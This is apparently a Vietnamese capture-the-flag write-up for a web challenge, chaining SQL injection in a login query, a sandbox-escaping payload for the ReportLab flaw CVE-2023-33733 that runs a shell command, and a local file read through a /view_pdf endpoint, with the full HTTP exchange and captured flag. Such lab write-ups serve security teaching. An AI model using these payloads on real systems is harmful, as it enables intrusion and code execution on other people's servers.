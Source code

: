 ```yaml
---
title: TITLE
date: 'XXXX-XX-XX'
draft: false
authors: ['AUTHOR']
tags: ['XXX', 'YYY']
summary: 'XXX'
canonical: ''
---
```


## TITLE

## Table of Contents

1. [Source](#Source)
2. [Solution](#Solution)

## Main Content

### SQLi username

Ở đây thì khi login, ta thấy chương trình sẽ gọi tới hàm `getUser` trong database
```python
user, status = database.get_user(username, password)
```

Nhìn vào file `database.py`, ta thấy được cách hàm này hoạt động:

```python
def get_user(self, username, password):
    password_bytes = password.encode("utf-8")
    query = text(f"SELECT * FROM users WHERE username = '{username}'")
    print("Query:", query)
    user = self.session.execute(query).fetchone()
    if not user:
        return None, False
    if bcrypt.checkpw(password_bytes, user.password.encode("utf-8")):
        return user, True
    return None, False
```

Đoạn code trên bị lỗi SQL Injection ở chỗ `username` khi nó được truyền vào query mà không được escape. Để ý class user có dạng

```python
class Users(db):
    __tablename__ = "users"
    id = Column(Integer, primary_key=True, autoincrement=True)
    username = Column(String)
    password = Column(String)
    is_admin = Column(Boolean, default=True)
```

Như vậy để có thể login với user có quyền admin ta tạo tài khoản với user bất kỳ. Ở đây là `trungpq`, sau đó ta sẽ login với `username` như sau:

```
' union select id, username, password, 1 from users where username%3d'trungpq
```

Như vậy câu query sẽ trở thành
```
SELECT * FROM users WHERE username = '' union select id, username, password, 1 from users where username='trungpq'
```

Nó sẽ trả về user `trungpq` nhưng mà có quyền admin

### CVE-2023-33733
Do có chức năng liên quan tới chuyển file txt thành pdf trong file `app.py` (/convert, /view_pdf), mình đã cố tìm cách để có thể khai thác bằng cách tìm điểm yếu trong code nhưng hardcore vcl.

Sau cùng thì như HTB Machine Easy, có thể là nó sẽ có CVE nào đó, nên mình đã search google "python pdf cve" và ra ngay một con hàng trên đầu
```
https://github.com/c53elyas/CVE-2023-33733
```

Đây là CVE của reportlab (được sử dụng trong `convert_pdf.py`) có thể inject code vào pdf. Tuy nhiên thì mình thử kiểu gì cũng éo được. Sau cùng thì tư duy `mineme2` lại khiến mình thử diff lib reportlab của bài này với bản gốc xem có gì hay ho (cụ thể là bản 3.6.12)

Ở file `rl_safe_eval.py` đã filter hết các từ sau:
```python
__rl_unsafe__ = frozenset('''all any breakpoint builtins co_argcount co_cellvars co_code co_consts co_filename co_firstlineno 
							co_flags co_freevars co_kwonlyargcount co_lnotab co_name co_names co_nlocals co_posonlyargcount 
							co_stacksize co_varnames cr_await cr_code cr_frame cr_origin cr_running ctype enumerate filter frozenset 
							func_code func_defaults func_doc func_globals func_name f_back f_builtins f_code f_exc_traceback f_exc_type 
							f_exc_value f_globals f_lasti f_lineno f_locals f_restricted f_trace gi_code gi_frame gi_running gi_yieldfrom 
							globals hasattr im_class im_func im_self iter list locals map max min next pow range reversed set sorted 
							sum system tb_frame tb_lasti tb_lineno tb_next vars __annotations__ __code__ __defaults__ __func__ __globals__ 
							__iter__ __kwdefaults__ __module__ __name__ __qualname__ __self__'''.split()
```
Challenge đã filter `pow` và `system` nên ta sẽ đổi thành `popen` và `type` để bypass filter

Final payload:
```
<para> <font color="[ [ getattr(type,Word('__globals__'))['os'].popen('cat /flag*.txt > /tmp/hehe.pdf').read() for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">                exploit                </font>            </para>
```

### LFI 

```python
@app.route("/view_pdf", methods=["GET"])
def view_pdf():
    token = request.cookies.get("token")
    if not token:
        return redirect(url_for("login"))
    
    try:
        jwt_payload = jwt.decode(token, JWT_KEY, algorithms=[JWT_ALG])
    except jwt.ExpiredSignatureError:
        return redirect(url_for("login"))
    except jwt.InvalidTokenError:
        return redirect(url_for("login"))
    
    if not jwt_payload.get("login"):
        return redirect(url_for("login"))
    
    if jwt_payload.get('login') and is_admin(jwt_payload):
        pdf_filename = request.args.get('f')
        if not pdf_filename:
            return render_template("error.html", title="Error", error="No file provided", redirect_url="/convert"), 400
        return send_file(os.path.join(UPLOAD_FOLDER, pdf_filename), as_attachment=False)
```

Đoạn code này bị LFI nên có thể đọc file bất kỳ, vậy exccute đưa flag ra `/tmp/hehe.pdf` và đọc file flag là xong

```
GET /view_pdf?f=/tmp/hehe.pdf HTTP/2
Host: hells.ehc-fptu.club
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dpbiI6dHJ1ZSwidXNlcm5hbWUiOiJ0cnVuZ3BxIiwiaXNfYWRtaW4iOjF9.xhq-NmIQhPKFkV2Ua19nfn9esgEYIo2LvAac6g5kmvs
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: embed
Referer: https://hells.ehc-fptu.club/convert
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

HTTP/2 200 OK
Date: Wed, 11 Sep 2024 12:03:09 GMT
Content-Type: application/pdf
Content-Length: 59
Content-Disposition: inline; filename=hehe.pdf
Last-Modified: Wed, 11 Sep 2024 12:00:33 GMT
Cache-Control: no-cache
Etag: "1726056033.212105-59-540542130"
Vary: Cookie, Accept-Encoding
Set-Cookie: session=; Expires=Thu, 01 Jan 1970 00:00:00 GMT; Max-Age=0; Secure; HttpOnly; Path=/; SameSite=Lax
Cf-Cache-Status: BYPASS
Accept-Ranges: bytes
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=06L56Ghj9h69RbqcnkwHAsBPtIRla6BNeK7q2EU0nb6g1LF4XlRDZDQiWoZRcZYeB5%2BSArn%2BIHBIJDdDwRcXbY6FYLYVRSc5SqcdirAK2zE0%2B3M%2FZMya6IB1JNHiMRIBgxYVk4hQ"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Strict-Transport-Security: max-age=2592000
X-Content-Type-Options: nosniff
Server: cloudflare
Cf-Ray: 8c1783528c409ca7-SIN
Alt-Svc: h3=":443"; ma=86400

EHC{3asy_brute_f0rce_jwt_4nd_expl0it_ed1ted_CVE-2023-33733}
```

